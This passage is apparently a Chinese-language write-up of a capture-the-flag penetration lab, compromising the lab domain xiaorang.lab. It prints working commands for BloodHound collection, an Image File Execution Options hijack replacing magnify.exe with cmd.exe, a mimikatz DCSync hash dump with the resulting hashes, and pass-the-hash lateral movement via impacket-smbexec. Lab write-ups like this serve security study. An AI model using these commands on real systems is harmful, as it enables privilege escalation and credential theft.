接着我们用bloodhound来进行一下域内信息收集
SharpHound.exe -c all

将数据采集完生成的zip文件，上传导入到BloodHound分析

从图中，我们会发现46这台机子的用户是域管，那我们接下来就要想办法在这台机子上提权，然后拿下域控
根据前面的hint
Do you know how to hijack Image?
我们可以知道接下来要进行镜像劫持(IFEO)提权
Get-ACL -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl
这条命令的意思是获取指定注册表路径的访问控制列表（ACL）。

NT AUTHORITY\Authenticated Users
我们可以发现全部已登录用户都可以对注册表进行修改
那我们就可以通过修改注册表进行映像劫持
我们这里通过将放大镜启动的magnify.exe替换成C:\windows\system32\cmd.exe，来进行提权
1REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
修改后选择锁定

在锁定页面选择放大镜即可

type c:\Users\Administrator\flag\flag02.txt

接着我们可以新建一个用户让rdp可以连上去
FLAG3
接下来就是常规的将域内用户的哈希dump下来
mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit > mimikatz.txt
结果
.#####. mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(commandline) # lsadump::dcsync /domain:xiaorang.lab /all /csv
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502 krbtgt 3ffd5b58b4a6328659a606c3ea6f9b63 514
1000 DC01$ 7408967f1fd3c2ff807232b7b5c5fc95 532480
500 Administrator 2c9d81bdcf3ec8b1def10328a7cc2f08 512
1103 WIN2016$ aae3dca76f254c52708ee076935bb533 16781312
1104 WIN19-CLIENT$ 7c011200ecbe666945e465c200afcb5e 16781312
1105 Aldrich 0607f770c2f37e09a850e09e920a9f45 512
mimikatz(commandline) # exit
Bye!
之后就可以进行横向移动了
proxychains4 impacket-smbexec -hashes :2c9d81bdcf3ec8b1def10328a7cc2f08 xiaorang.lab/administrator@172.22.8.15 -codec gbk

type c:\users\administrator\flag\flag03.txt
拿到最后一个flag
C:\Windows\system32>type c:\users\administrator\flag\flag03.txt
_________ __ _ _
| _ _ | [ | (_) / |_
|_/ | | \_|.--. .---. | | __ .---. _ .--. `| |-'
| | ( (`\] / /'`\] | | [ |/ /__\\[ `.-. | | |
_| |_ `'.'. | \__. | | | || \__., | | | | | |,
|_____| [\__) )'.___.'[___][___]'.__.'[___||__]\__/
Congratulations! ! !
flag03: flag{410202d3-2e47-4619-a6b0-96051a985f2e}
这题用cs打会方便很多，但是一开始没考虑到，所以后面也一直没用。